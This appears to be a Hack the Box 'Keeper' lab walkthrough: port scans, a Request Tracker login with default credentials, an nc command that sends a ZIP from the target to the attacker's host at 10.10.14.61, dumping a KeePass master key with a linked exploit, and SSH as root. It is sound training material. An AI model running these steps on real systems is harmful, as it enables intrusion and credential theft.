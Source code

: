 # Hack the Box - Keeper

```
rustscan -a 10.10.11.227 -r 0-65535 --ulimit 5000 
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/66939215-b494-486c-91cf-c24c5845167d)

```
nmap -sV -sC -A --min-rate 1000 10.10.11.227 -p 22,80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d9b95b35-fff7-471f-9257-09aa865cc3f9)

## HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f306fea0-644b-4415-b2d4-d5a5041ce776)

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ad643d0d-40bb-45e9-96a4-922da6d26d45)

Request Tracker Default Credentials
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cf2f5581-c7de-4cb1-8f59-a469adf05737)

Dashboard
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bc5655f3-6405-4a33-a712-a8941dcafc80)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4bb08dfa-b361-4be2-8d75-66e7c7f6f7c7)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/22b263dc-63ec-49df-baf0-d33b2a0af87c)

SSH
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b612ec6c-ad5c-4eab-8ffe-1278d26e3cf9)

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f50378d9-1cdc-4a82-9759-03579c745ba9)

Sending the ZIP file:
```
nc -N 10.10.14.61 9090 < RT30000.zip
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/93b150a1-152b-40f1-aa39-af4065c1e762)

Receiving the ZIP file:
```
nc -l -p 9090 > keeper.zip
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8b230c17-acee-4527-9086-cb9e3185991a)

Unzip:
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8ec9d78e-9d40-4420-b4cb-517a8f99204b)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/627729c4-cd6b-4b2e-9971-1ae72ea275aa)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/30d383ff-39b0-4970-8222-c95ea6cf0fe8)

Dump KeePass Master Key:
Use the python exploit below to dump the master key.
```
https://github.com/CMEPW/keepass-dump-masterkey
```
```
python3 keepassdump.py -d KeePassDumpFull.dmp
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/0b2c3f74-9f20-4b71-95ee-b92ff5cd5e46)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/158807b7-c6fc-4df9-a6b8-3658ac94f884)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/91db3c89-e497-4c89-a33a-0a878fe5f8f2)

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f3bda035-9f4d-45b0-aeac-2c6f7c0744c9)

Save the key as `key.ppk`
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d7f25ece-bdd7-4d5a-819d-ec68c3e98412)

Convert the key to `.pem` format:
```
puttygen key.ppk -O private-openssh -o key.pem
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/047944e5-e3de-4037-80f6-5f47037ef3fa)

SSH as root:
```
ssh root@10.10.11.227 - key.pem
```
